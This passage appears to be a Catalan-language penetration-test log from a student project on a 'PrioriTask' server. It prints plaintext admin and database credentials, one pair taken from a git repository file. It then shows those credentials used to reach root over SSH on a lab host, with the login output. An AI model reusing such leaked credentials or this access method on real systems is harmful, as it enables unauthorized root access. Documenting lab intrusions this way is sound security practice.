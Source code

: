 - Accedim amb l'usuari oldschool@oldschool.cat : Admin123
![accesComAdmin](https://user-images.githubusercontent.com/78735128/223496939-f5715fb2-20c1-4eff-81a6-27df9a9a09b4.png)

- Creem una tasca:
![tascaUsuariAdmin](https://user-images.githubusercontent.com/78735128/223498578-ace7922b-6756-4c97-9458-f9ef40633a40.png)


**Acció 2:**

Persona --> Cristian
Temps --> 06/03/2023
Acció --> Connectar per SSH amb les credencials del repositori
Endpoint --> 192.168.255.26
Resultat --> Hem aconseguit entrar com a root.
Output:

Intentem entrar amb les credencials que hem trobat al repositori de git fitxer (PrioriTask/api/BdD.php):

usuari --> adminer
passwd --> Bhun@89ble.oient

```
(20:23:12)[Lun mar 06]lao@parrot:$ ssh root@192.168.255.26
adminer@192.168.255.26's password: 
Permission denied, please try again.
adminer@192.168.255.26's password: 
Permission denied, please try again.
```

```
(20:24:23)[Lun mar 06]lao@parrot:$ ssh root@192.168.255.26

root@192.168.255.26's password: 
Welcome to Prioritask, TurnKey GNU/Linux 17.1 (Debian 11/Bullseye)

  System information for Mon Mar 06 19:24:23 2023 (UTC+0000)
  
    System load:  1.26              Memory usage:  27.9%
    Processes:    44                Swap usage:    0.0%
    Usage of /:   14.5% of 8.00GB   IP address for eth0: 172.17.100.114
                                    IP address for tun0: 192.168.255.26
  
  TKLBAM (Backup and Migration):  NOT INITIALIZED
  
    To initialize TKLBAM, run the "tklbam-init" command to link this
    system to your TurnKey Hub account. For details see the man page or
    go to:
  
        https://www.turnkeylinux.org/tklbam
  

    For Advanced commandline config run:    confconsole

  For more info see: https://www.turnkeylinux.org/docs/confconsole

Linux prioritask 5.15.30-2-pve #1 SMP PVE 5.15.30-3 (Fri, 22 Apr 2022 18:08:27 +0200) x86_64
Last login: Sun Mar  5 14:20:24 2023 from 172.17.100.109
root@prioritask ~#
```
